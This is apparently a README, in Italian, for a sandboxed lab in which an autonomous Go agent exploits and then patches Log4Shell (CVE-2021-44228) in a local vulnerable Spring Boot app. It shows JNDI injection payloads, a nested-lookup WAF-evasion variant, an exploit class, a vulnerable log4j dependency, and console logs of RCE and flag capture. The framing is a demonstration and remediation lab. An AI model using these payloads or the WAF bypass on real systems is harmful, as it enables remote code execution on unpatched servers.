



<p align="center">
  
</p>

<h1 align="center">🤖 AUTO AUDIT</h1>

<p align="center">
  <b>Laboratorio dimostrativo isolato di un agente esecutore reattivo autonomo (Go/Java)</b>
</p>

<p align="center">
  <a href="README.md"><b>Русский 🇷🇺</b></a> • <a href="README.en.md"><b>English 🇬🇧</b></a> • <a href="README.zh.md"><b>中文 🇨🇳</b></a> • <a href="README.es.md"><b>Español 🇪🇸</b></a> • <a href="README.de.md"><b>Deutsch 🇩🇪</b></a> • <a href="README.it.md"><b>Italiano 🇮🇹</b></a> • <a href="README.ar.md"><b>العربية 🇸🇦</b></a>
</p>

<p align="center">
  <a href="https://golang.org"></a>
  <a href="https://openjdk.org"></a>
  <a href="https://maven.apache.org"></a>
  <a href="LICENSE"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
</p>

---

## 🧭 Panoramica

> [!NOTE]
> **AUTO AUDIT** è un sistema software che dimostra un ciclo a **circuito chiuso al 100% autonomo (Sense-Think-Act)** di scoperta, convalida, sfruttamento (exploitation), auto-rimediazione (self-healing) e report di conformità per la vulnerabilità critica **Log4Shell** (**CVE-2021-44228**).
>
> La sandbox avvia un'applicazione web target locale basata su **Java Spring Boot**, un **LDAP TCP Callback Listener** integrato e un kernel cognitivo dell'**agente Go**, che coordina le azioni in un ambiente parzialmente osservabile (*Partially Observable Markov Decision Process — POMDP*).




---

## 🛠️ Architettura tecnica e componenti

La struttura software dell'agente è sviluppata seguendo l'Architettura Esagonale (Porte e Adattatori) e i principi SOLID e TDD:

* 📂 **[cmd/agent/main.go](cmd/agent/main.go)** — Entrypoint. Gestisce i cicli di vita dei servizi in background e coordina il loop principale dell'agente.
* 📂 **`internal/`** — Logica di business principale del circuito cognitivo:
  * 🧠 **[agent/agent.go](internal/agent/agent.go)** — Motore cognitivo. Implementa la policy decisionale e il loop dell'agente.
  * 💾 **[core/model.go](internal/core/model.go)** — `KnowledgeBase` (LTM) thread-safe basata su un `sync.RWMutex`.
  * 🔌 **[core/effector.go](internal/core/effector.go)** — Interfaccia `Tool` per gli effettori.
  * ⚙️ **[effectors/](internal/effectors/)** — Registro polimorfico degli effettori (strumenti):
    * 🔍 `ToolPortScanner` — Ricognizione (reconnaissance) e scansione delle porte di rete.
    * 🌐 `ToolDiscovery` — Mappatura dei parametri dell'applicazione web e parsing dei vettori di input (`X-Api-Version`).
    * 🔬 `ToolPayloadGenerator` — Sintetizza vettori di firme JNDI.
    * 🚀 `ToolProber` — Verifica out-of-band (OOB) della vulnerabilità.
    * 🛡️ `ToolSemanticFuzzer` — Mutazioni di offuscamento (evasione WAF) tramite lookup nidificati.
    * 🩹 `ToolRemediator` — Hot patching automatico (self-healing).
    * 📄 `ToolReporter` — Generazione del report di audit di sicurezza.
* 📂 **`pkg/`** — Moduli e utility condivisi:
  * 📡 **[oob/](pkg/oob/)** — Server LDAP e HTTP out-of-band.
  * ☕ **[jvm/](pkg/jvm/)** — Gestisce il processo target compilato della simulazione Java locale.
* 📂 **[deployments/](deployments/)** — Contiene i file di configurazione Docker e Compose.
* 📂 **[test/vulnerable-app/](test/vulnerable-app/)** — Microservizio Java Spring Boot vulnerabile target.


---

## 🎯 Apparato matematico e specifica del ciclo cognitivo (ciclo Think-Act)

Il processo decisionale dell'agente è formalizzato como un **Partially Observable Markov Decision Process (POMDP)**, rappresentato dalla tupla $\langle S, A, T, R, \Omega, O, \gamma \rangle$:
* $S$ è lo spazio degli stati discreti dell'ambiente target (accessibilità delle porte, mappatura dei parametri di ingresso, presenza di WAF, stato di compromissione, applicazione delle patch, stato della documentazione di conformità).
* $A$ è lo spazio delle azioni degli effettori (esecuzione degli strumenti: `port_scanner`, `discovery`, `payload_generator`, `prober`, `semantic_fuzzer`, `remediator`, `reporter`, `stop`).
* $\Omega$ è lo spazio delle osservazioni (codici di stato HTTP ricevuti, callback TCP OOB, eventi del filesystem).
* $O(o \mid s', a)$ è la funzione di osservazione, che determina la probabilità di ricevere l'osservazione $o \in \Omega$ dopo aver eseguito l'azione $a$.

### 1. Rappresentazione del Belief State
L'agente non ha accesso diretto allo stato nascosto $s \in S$ e opera su un belief state $b(s)$ — una distribuzione di probabilità su $S$, mantenuta e aggiornata dinamicamente all'interno della `KnowledgeBase` thread-safe:
* $b(S_{recon}) \in \{0, 1\}$ — stato di ricognizione di rete (aperto/chiuso). Mappato su `ToolPerformance["port_scanner"]`.
* $b(S_{discovery}) \in \{0, 1\}$ — stato di mappatura dei vettori di input (se le posizioni dei parametri vengono trovate). Mappato su `len(DiscoveryVectors) > 0`.
* $b(S_{payload}) \in \{0, 1\}$ — prontezza della firma dell'exploit. Mappato su `len(CustomPayloads) > 0`.
* $b(S_{exploit}) \in \{0, 1\}$ — stato di compromissione del target (cattura del loot). Mappato su `len(Loot) > 0`.
* $b(S_{patch}) \in \{0, 1\}$ — stato di applicazione dell'hot patch. Mappato su `PatchApplied`.
* $b(S_{verify}) \in \{0, 1\}$ — stato di verifica della rimediazione. Mappato su `PatchVerified`.
* $b(S_{report}) \in \{0, 1\}$ — stato della documentazione di conformità. Mappato su `ReportGenerated`.

### 2. Mappatura della Policy
Il loop decisionale principale dell'agente `Think()` implementa una policy deterministica $\pi: B \to A$ che mappa il belief state corrente $b$ sull'azione dell'effettore ottimale $a \in A$.

### 3. Apprendimento adattivo e utilità dell'effettore
Per ciascuno strumento $a \in A$, l'agente accumula statistiche di esecuzione in `ToolStats` e calcola una metrica di utilità (Efficiency Score):

$$\text{EfficiencyScore}(a) = \frac{SuccessCount_a}{UsageCount_a}$$

Questo viene sfruttato per il pathfinding adattivo: se il tentativo iniziale di sfruttamento (`prober`) fallisce (ossia $\text{EfficiencyScore}(\text{prober}) = 0$), l'agente deduce la presenza di filtri WAF, devia la sua strategia per attivare `semantic_fuzzer` per l'offuscamento del payload e riprova l'exploit.

### Ciclo di vita dell'esecuzione passo dopo passo:

| Passo | Strumento selezionato | Azione e processo sottostante | Modifiche del Belief State |
| :--- | :--- | :--- | :--- |
| **1** | `port_scanner` | Esegue il probe del socket TCP sulla porta target `:8080`. | Porta HTTP scoperta ($b(S_{recon}) = 1$). |
| **2** | `discovery` | Analizza gli header e la struttura della pagina. | Parametro `X-Api-Version` identificato come punto di ingresso ($b(S_{discovery}) = 1$). |
| **3** | `payload_generator` | Costruisce la firma grezza dell'exploit JNDI. | Payload aggiornati con `\${jndi:ldap://127.0.0.1:1389/Exploit\}` ($b(S_{payload}) = 1$). |
| **4** | `prober` | Tentativo di sfruttamento (exploitation). L'agente invia il payload. | Bloccato dal WAF del target. $\text{EfficiencyScore}(\text{prober}) = 0$. |
| **5** | `semantic_fuzzer` | Mutazione della firma tramite lookup nidificati. | Generato payload offuscato ($b(S_{payload}) = 1$, bypass del WAF). |
| **6** | `prober` | Invio del payload di exploit con firma mutata. | Il server LDAP cattura il redirect TCP in entrata. RCE confermata ($b(S_{exploit}) = 1$). |
| **7** | `remediator` | Auto-rimediazione. Hot patch della configurazione dell'applicazione target. | Proprietà JVM reinizializzate con `-Dlog4j2.formatMsgNoLookups=true` ($b(S_{patch}) = 1$). |
| **8** | `prober` | Verifica (re-test). | Il server LDAP monitora la porta di callback. Connessione assente $\rightarrow$ $b(S_{verify}) = 1$. |
| **9** | `reporter` | Scrittura del report di conformità. | Report di audit generato in `reports/cve_2021_44228_report.md` ($b(S_{report}) = 1$). |
| **10**| `stop` | Terminazione. | Loop completato. |

---

## 📊 Diagrammi di flusso degli algoritmi

### 1. Diagramma di flusso generale del ciclo di vita dell'agente (ciclo Sense-Think-Act)
Questo diagramma illustra il ciclo di vita continuo a runtime dell'agente, a partire dall'inizializzazione fino alla compilazione del report di conformità e alla chiusura della sessione.



### 2. Diagramma di flusso dell'algoritmo del nucleo decisionale (Think)
Questo diagramma mappa la logica decisionale precisa eseguita dalla funzione `Think()` ad ogni iterazione del loop, in base al Belief State corrente:



---

## 📦 Specifica dell'applicazione Java vulnerabile

L'applicazione target in `test/vulnerable-app/` è un controller REST basato su **Spring Boot 2.7.18** con una dipendenza legacy **Apache Log4j2**:

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version> <!-- Vulnerable version supporting JNDI lookup -->
</dependency>
```

L'endpoint vulnerabile registra nei log gli header HTTP senza sanificazione:
```java
logger.info("[AUDIT] API Version header logged: {}", apiVersion);
```

Quando riceve `${jndi:ldap://...}`, log4j core avvia la risoluzione LDAP verso la porta del listener `1389`.

---

## 🚀 Installazione e avvio

Il laboratorio di simulazione supporta due modalità di distribuzione: esecuzione locale direttamente sulla macchina host (Opzione A) o esecuzione completamente containerizzata in un ambiente di rete isolato tramite Docker Compose (Opzione B).

### Opzione A. Avvio locale sulla macchina host

#### Prerequisiti
* **JDK 17+** (verifica tramite `java -version`)
* **Maven 3.8+** (verifica tramite `mvn -version`)
* **Go 1.21+** (verifica tramite `go version`)

#### 1. Compilazione del microservizio Java target
Compila l'applicazione Java target in un fat JAR eseguibile:
```bash
cd test/vulnerable-app
mvn clean package
cd ../..
```
*Verifica che `test/vulnerable-app/target/vulnerable-app-simple-1.0.0.jar` sia stato creato.*

#### 2. Compilazione del payload di exploit
Compila la classe Java servita dal web server HTTP:
```bash
javac internal/payload/Exploit.java
```

#### 3. Compilazione e avvio della sandbox autonoma
Esegui il loop principale di Go utilizzando l'interpretazione al volo:
```bash
go run ./cmd/agent
```

Oppure compila in un file binario eseguibile standalone:
```bash
go build -o test_agent ./cmd/agent
./test_agent
```

---

### Opzione B. Esecuzione in una sandbox containerizzata isolata (Docker Compose)

> [!TIP]
> Questo metodo non richiede l'installazione di Go, Java o Maven sulla macchina host. L'intera configurazione del laboratorio viene compilata ed eseguita automaticamente all'interno di una rete virtuale isolata sottosegmentata su `172.20.0.0/16`.


#### Prerequisiti
* **Docker** e il plugin **Docker Compose** installati (verifica tramite `docker compose version`).

#### 1. Avvio del laboratorio
Compila le immagini dei container e avvia i servizi con un singolo comando dalla cartella radice del progetto:
```bash
docker compose -f deployments/docker-compose.yml up --build
```

#### 2. Ciclo di vita e processi interni:
* `vulnerable-app` compila l'applicazione Spring Boot, monta le directory interne, scrive la flag segreta in `/var/lib/secret/flag.txt` e serve gli endpoint sulla porta `:8080`.
* `reflective-agent` compila lo stage del compilatore Go, compila `Exploit.java`, esegue i listener LDAP/HTTP e avvia il loop cognitivo.
* La directory locale `reports/` sul filesystem dell'host viene montata sul container dell'agente — il report di conformità GOST finale viene memorizzato automaticamente nella cartella dell'host al percorso `reports/cve_2021_44228_report.md`.

#### 3. Arresto della sandbox
Per pulire gli ambienti dei container e rilasciare le configurazioni di rete, esegui:
```bash
docker compose -f deployments/docker-compose.yml down
```

---

## 📊 Esempio di output della console

```text
=== ДЕМОНСТРАЦИОННЫЙ СТЕНД РЕАКТИВНОГО АГЕНТА (JAVA SPRING TARGET) ===
[*] Запуск скомпилированного уязвимого Java Spring приложения локально...
[*] Ожидание инициализации веб-контекста Spring (3.5 сек)...
[*] Инициализация агента-исполнителя для цели: http://localhost:8080
================================================================
[ВЫВОД] Выбран инструмент: 'port_scanner' (Текущая фаза: Reconnaissance)
[ЭФФЕКТОР:port_scanner] Сканирование porta localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружен открытый HTTP-порт localhost:8080. Java Spring Web-служба отвечает.

[ВЫВОД] Выбран инструмент: 'discovery' (Текущая фаза: Discovery)
[ЭФФЕКТОР:discovery] Исследование структуры веб-приложения http://localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружены потенциальные векторы ввода: GET-параметр '/?input=' и HTTP-заголовок 'X-Api-Version'.

[ВЫВОД] Выбран инструмент: 'payload_generator' (Текущая фаза: Discovery)
[ЭФФЕКТОР:payload_generator] Анализ уязвимостей и синтез сигнатур...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирована сигнатурная нагрузка для CVE-2021-44228: '${jndi:ldap://127.0.0.1:1389/Exploit}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${jndi:ldap://127.0.0.1:1389/Exploit}' на http://localhost:8080...
[НАБЛЮДЕНИЕ] FAILURE: Атака не удалась. Уязвимость не эксплуатирована или флаг не перехвачен.

[ВЫВОД] Выбран инструмент: 'semantic_fuzzer' (Текущая фаза: Discovery)
[ЭФФЕКТОР:semantic_fuzzer] Запуск обфускации и семантического фаззинга против WAF...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирован обфусцированный вектор обхода: '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}' на http://localhost:8080...
[LDAP SERVER] Получен LDAP BindRequest. Отправка BindResponse...
[LDAP SERVER] Получен LDAP SearchRequest. Отправка JNDI Referral...
[HTTP SERVER] Получен запрос на загрузку Exploit.class
[HTTP SERVER] >>> ПЕРЕХВАЧЕН СЕКРЕТНЫЙ ФЛАГ: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026} <<<
[НАБЛЮДЕНИЕ] SUCCESS: LDAP Callback получен на порту 1389. RCE отработал. Перехваченный флаг: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026}.

[ВЫВОД] Выбран инструмент: 'remediator' (Текущая фаза: Remediation)
[ЭФФЕКТОР:remediator] Анализ причин уязвимости и генерация исправления для http://localhost:8080...
[ЭФФЕКТОР:remediator] Отправка команды применения патча на http://localhost:8080/remediate...
[НАБЛЮДЕНИЕ] REMEDIATION_SUCCESS: Патч применен. На целевое приложение отправлен запрос ремедиации (изменен флаг -Dlog4j2.formatMsgNoLookups=true). JVM успешно переинициализирована.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Verification)
[ЭФФЕКТОР:prober] Верификация патча: Повторная атака уязвимости на http://localhost:8080...
[НАБЛЮДЕНИЕ] VERIFICATION_SUCCESS: Попытка эксплуатации отклонена сервером. Входящий TCP-коллбек на порт 1389 отсутствует. Уязвимость успешно устранена.

[ВЫВОД] Выбран инструмент: 'reporter' (Текущая фаза: Verification)
[ЭФФЕКТОР:reporter] Формирование отчета об уязвимости по стандартам РФ для http://localhost:8080...
[НАБЛЮДЕНИЕ] REPORT_SUCCESS: Отчет успешно сгенерирован и сохранен в файл 'reports/cve_2021_44228_report.md'.

================================================================
[INFO] Жизненный цикл аудита, патчинга и комплаенса завершен.
```

---

## 📜 Politiche di sicurezza e conformità
Il report di conformità generato in `reports/cve_2021_44228_report.md` è conforme ai principali framework di sicurezza informatica:
* **GOST R 56939-2016** — Protezione delle informazioni. Sviluppo sicuro del software.
* Requisiti della **Legge Federale N. 152-FZ** "Sui dati personali".
* **Legge Federale N. 187-FZ** "Sulla sicurezza dell'infrastruttura informativa critica della Federazione Russa".

---

## 🛡️ Licenza
Questo progetto è concesso in licenza sotto la **Licenza MIT**. Vedere il file [LICENSE](LICENSE) per i dettagli.
